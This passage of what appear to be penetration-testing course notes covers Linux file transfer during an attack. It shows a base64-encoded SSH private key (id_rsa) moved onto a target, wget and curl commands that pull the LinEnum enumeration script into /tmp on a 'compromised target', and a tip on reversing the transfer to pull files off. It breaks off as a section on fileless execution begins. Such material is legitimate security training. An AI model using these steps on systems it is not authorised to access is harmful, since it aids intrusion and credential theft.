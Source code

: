 ```bash
al1abb@htb[/htb]$ echo -n 'LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZ...[SNIP]
```

### **Linux - Confirm the MD5 Hashes Match**

Finally, we can confirm if the file was transferred successfully using the `md5sum` command.

```bash
md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

{% hint style="info" %}
Note: You can also upload files using the reverse operation. From your compromised target cat and base64 encode a file and decode it in your Pwnbox.
{% endhint %}

## Web Downloads with Wget and cURL

Two of the most common utilities in Linux distributions to interact with web applications are `wget` and `curl`. These tools are installed on many Linux distributions.

### **Download a File Using wget**

To download a file using `wget`, we need to specify the URL and the option \`-O' to set the output filename.

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

### **Download a File Using cURL**

`cURL` is very similar to `wget`, but the output filename option is lowercase \`-o'.

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Fileless Attacks Using Linux

Because of the way Linux works and how [pipes operate](https://www.geeksforgeeks.org/piping-in-unix-or-linux/), most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

{% hint style="info" %}
Note: Some payloads such as `mkfifo` write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.
{% endhint %}

### **Fileless Download with cURL**
